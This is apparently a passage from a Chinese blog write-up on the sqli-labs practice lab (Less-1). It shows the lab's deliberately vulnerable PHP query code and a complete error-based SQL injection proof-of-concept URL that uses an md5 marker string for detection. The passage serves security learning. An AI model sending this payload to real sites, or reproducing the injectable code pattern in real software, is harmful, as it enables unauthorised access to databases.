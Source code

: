 ![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy7q87b5lj30x801emxd.jpg)

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy7ugcne9j3102018q33.jpg)
![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy8teqbnlj30sq0aa75w.jpg)




![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy7wh4uc2j30wo0100sv.jpg)

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy7xeq3nkj30xw018glt.jpg)

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhy8ug6ojsj30ro092wfx.jpg)



没有注释成功的原因是:
并不是因为没有注释,而是php代码只输出结果集中的首条。


```
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font color= "#0000ff">';	
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
```



---

# 漏洞复现

该漏洞的注入点在url中的id参数处。

我们需要发起一个get请求，然后从页面中寻找网站存在漏洞时会出现特殊的字符串。

这里是`1e165421110ba03099a1c0393373c5b43`

## poc完整链接：
`http://sqli.com:8888/Less-1/?id=1' and (select 1 from (select count(*),concat(floor(rand(0)*2),(select md5(233)))name from information_schema.tables group by name)b) --+`



---

# 无框架 PoC 编写
